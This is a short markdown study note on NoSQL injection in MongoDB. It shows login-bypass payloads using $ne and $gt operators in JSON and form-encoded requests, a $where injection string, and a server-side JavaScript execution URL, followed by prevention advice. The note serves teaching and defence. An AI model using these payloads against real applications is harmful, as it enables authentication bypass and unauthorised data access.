 # NoSQL Injection

> Shukla Ji:
>
> > "Apparently, MongoDB and many of the NoSQL databases are nothing more than JavaScript processing engines."
> 

## Links

- https://medium.com/@shukla.iitm/nosql-injection-8732c2140576
- https://www.owasp.org/images/e/ed/GOD16-NOSQL.pdf
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection
- http://blog.ptsecurity.com/2012/11/attacking-mongodb_26.html

## Concept

NoSQL queries can be as insecure as SQL queries. Developer might be concatenating the values.

Sample bad query: `db.accounts.find({username: username, password: password});`

This can be hacked just by sending any of these two requests:

```HTTP
POST /login HTTP/1.1
Host: example.org
```

JSON request

```HTTP
Content-Type: application/json
Content-Length: 38

{
“username”: “admin”,
“Password”: {'$gt': “”}
}
```

NON-JOSN request

```HTTP
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

user=admin&password[%24ne]=
```

Another vulnerable query

`db.articles.find({“$where”: “this.hidden == false && this.category == ‘“+category+”’” });`

This can be exploited by passing `; return '' === ''`.

## MongoDB query operators

| \$      | escaped    |                                             |
| ------- | ---------- | ------------------------------------------- |
| \$ne    | [%24ne]    | not equal                                   |
| \$gt    | [%24gt]    | greater than                                |
| \$regex | [%24regex] | you can use regular expressions             |
| \$where | [%24where] | you can pass a script to filter the results |

## MongoDB operations that permit arbitrary javascript execution

- $where
- mapReduce
- group

You can disable it by passing `--noscripting` on the command line; or by setting `security.javascriptEnabled` in configuration file.

## Attacking MongoDB

SSJS code execution via `http://vuln-host:28017/admin/$cmd/?filter_eval=function(){ return db.version() }&limit=1`

`?login=admin&password[$ne]=1` is how you pass login = `"admin"` and password = `{ $ne: "1" }`.

## Preventing NoSQL injection

- Use stored procedures or stored functions or stored queries equivalent.
- Don't concatenate user input to form queries.
- Proper access management
  - Application accounts should not have admin rights.
  - Execute queries with lowest privileges possible.
- Use existing libraries instead of coming up with your own drivers and other implementations.
